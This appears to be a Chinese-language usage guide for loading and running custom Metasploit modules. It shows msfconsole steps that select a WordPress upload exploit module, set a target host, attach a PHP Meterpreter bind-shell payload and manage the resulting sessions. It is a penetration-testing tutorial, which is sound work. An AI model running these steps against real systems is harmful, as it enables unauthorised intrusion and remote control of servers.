 使用流程
========

将开放的模块放置metasploit安装目录的apps/pro/msf3/modules目录下，辅助模块放置在auxiliary目录下，利用模块放置在exploits目录下。

**启动运行环境**
::

    msfconsole

运行环境启动完成

如果运行环境正确启动，会看到类似效果:

.. image:: image/1.4.3.png

**查找提交的模块**

命令::

    search
	
示例::

    search wp_property_upload_exec

效果:
	
.. image:: image/1.4.4.png

**使用模块**

命令::

    use
	
示例::

    use exploit/unix/webapp/wp_property_upload_exec

效果:
	
.. image:: image/1.4.5.png

**查看该模块的配置信息**

命令::

    show
	
示例::

    show options

效果:
	
.. image:: image/1.4.6.png

或者使用命令 ``info`` 查看该模块更详细的信息

示例:

.. image:: image/1.4.7.png


**设置参数**

命令::

    set
	
示例::

    set RHOST 192.168.0.110

效果:
	
.. image:: image/1.4.8.png

**指定PAYLOAD**

在设置该模块的PAYLOAD之前需要查看该模块可用的PAYLOAD有哪些，可使用命令 ``show payloads`` 查看，示例如下::

.. image:: image/1.4.9.png

从所列出的PAYLOAD中选择自己熟悉的PAYLOAD使用

命令::

    set PAYLOAD
	
示例::

    set PAYLOAD php/meterpreter/bind_tcp

效果:
	
.. image:: image/1.4.10.png

PAYLOAD指定之后需要对PAYLOAD的参数进行相关设置，此处不再列举

**运行模块**

命令::

    exploit 或 run
	
**其它常用命令**

查看会话
::

    sessions -l
	
指定会话	
::

    sessions -i

.. note::

    此文档未列出获取会话之后所需要的操作命令，用户可在会话终端下通过help命令进行了解。